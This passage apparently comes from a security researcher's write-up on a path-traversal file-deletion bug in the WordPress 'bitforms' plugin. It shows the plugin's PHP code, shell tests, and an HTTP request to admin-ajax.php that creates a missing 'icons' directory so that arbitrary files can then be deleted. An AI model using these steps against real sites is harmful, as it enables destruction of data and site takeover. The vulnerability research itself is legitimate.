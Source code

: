 Hence, **the final constructed path in `$icnDir` is `/var/www/html/wp-content/uploads/bitforms/icons/`**.

Now, if we look at directory `/var/www/html/wp-content/uploads/bitforms/`, **the `icons` directory doesn't exist by default**!

```shell
root@9e2f4f189063:/var/www/html# ls -lah wp-content/uploads/bitforms/
total 20K
drwxr-xr-x 4 www-data www-data 4.0K Aug 22 08:21 .
drwxr-xr-x 5 www-data www-data 4.0K Aug 22 08:21 ..
drwxr-xr-x 2 www-data www-data 4.0K Aug 22 08:26 form-styles
-rw-r--r-- 1 www-data www-data    6 Aug 22 08:21 index.php
drwxr-xr-x 3 www-data www-data 4.0K Aug 22 08:26 uploads
```

Hmm... It actually makes sense why we can't delete any files using path traversal, because the `icons` directory doesn't exist. Since the directory doesn't exist, Linux can't resolve the real path of the file. We can try that:

```shell
root@9e2f4f189063:/var/www/html# rm /var/www/html/doesnt_exist/../test.txt
rm: cannot remove '/var/www/html/doesnt_exist/../test.txt': No such file or directory
```

Huh, okay. Are there any ways to **create directory `icons` at path `/var/www/html/wp-content/uploads/bitforms/`**?

Well, yes there's a way to create that directory!

If we look back to method `iconUpload`, we can see the following lines:

```php
class AdminAjax
{
  [...]
  public function iconUpload()
  {
    if (wp_verify_nonce(sanitize_text_field($_REQUEST['_ajax_nonce']), 'bitforms_save')) {
      [...]
      $uploadDirInfo = wp_upload_dir();
      $wpUploadbaseDir = $uploadDirInfo['basedir'];
      $icnDir = $wpUploadbaseDir . DIRECTORY_SEPARATOR . 'bitforms' . DIRECTORY_SEPARATOR . 'icons';
      if (!is_dir($icnDir)) {
        mkdir($icnDir);
      }
```

As you can see, if directory `$icnDir` doesn't exist, it'll create that directory using PHP built-in function `mkdir`. Nice!

With that being said, we can **first create directory `icons` using method `iconUpload`**, then delete any files via method `iconRemove`.

Let's test it again!

```http
POST /wp-admin/admin-ajax.php?action=bitforms_icn_save_setting&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 65
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"src":"anything"}
```

